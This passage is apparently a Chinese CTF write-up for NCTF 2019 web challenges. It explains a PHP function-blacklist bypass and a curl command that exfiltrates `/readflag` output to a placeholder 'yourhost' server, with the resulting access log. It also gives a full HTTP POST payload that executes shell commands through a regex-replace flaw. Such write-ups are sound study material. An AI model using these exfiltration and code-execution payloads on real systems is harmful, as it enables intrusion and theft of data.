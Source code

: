 get_defined_functions()函数包含了所有预定义的函数，除了echo。  

绕过的基本思路是通过$"函数名称"(<参数>,...)的方法来调用  

这里不能用system函数，需要用proc_open()方法  

通过curl外带回显结果的方法：

```bash
curl "http://yourhost/?flag=`/readflag`"
```

这里 /readflag 是渗透后常用的读flag的方法。  

反引号用来把一个命令的执行结果作为字符串。

然后在你的服务器的apache之access.log中就可以找到访问的记录。  

```
root@vultr:/var/log/apache2# cat access.log | grep flag
47.104.67.14 - - [23/Nov/2019:12:44:08 +0000] "GET /?flag=NCTFu_arrree_S0_c3refu1_aaaaaaa HTTP/1.1" 200 1153 "-" "curl/7.52.1"
root@vultr:/var/log/apache2# 
```

`NCTF{u_arrree_S0_c3refu1_aaaaaaa}`

### Upload [Unsolved]

找到了上传点，并且发现过滤方式为：后端的MIME TYPE检测+文件名白名单检测+文件幻数检测。  

上传之后访问不到文件，也不知道文件会不会被访问。。不知道怎么办了

### Replace

首先经过了很多尝试，发现使用的是preg_match()函数。  

又尝试了很多字串，发现第三个参数不安全。  

具体原理还不太清楚，需要进一步研究

Payload:

```http
POST /index.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40006
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: http://nctf2019.x1ct34m.com:40006
Connection: close
Referer: http://nctf2019.x1ct34m.com:40006/index.php
Cookie: PHPSESSID=vkr2rl8eptbuvuhklr21d7ot7v
Upgrade-Insecure-Requests: 1

sub=system&pat=&rep=$_POST[sub]($_POST[shell])&shell=cat /flag
```
